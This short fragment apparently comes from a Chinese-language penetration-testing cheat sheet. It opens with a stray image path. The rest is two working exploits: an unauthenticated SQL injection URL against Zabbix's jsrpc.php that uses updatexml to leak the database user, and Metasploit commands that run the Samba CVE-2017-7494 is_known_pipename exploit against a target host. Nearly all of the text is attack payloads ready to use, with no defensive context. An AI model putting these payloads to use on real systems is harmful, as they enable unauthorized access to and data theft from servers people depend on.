 > 这个漏洞也可以通过jsrpc.php触发，且无需登录：
```
http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)：
```

**CVE-2017-7494**

```bash
     use exploit/linux/samba/is_known_pipename
    set rhost <ip>
    set target 3
    run
```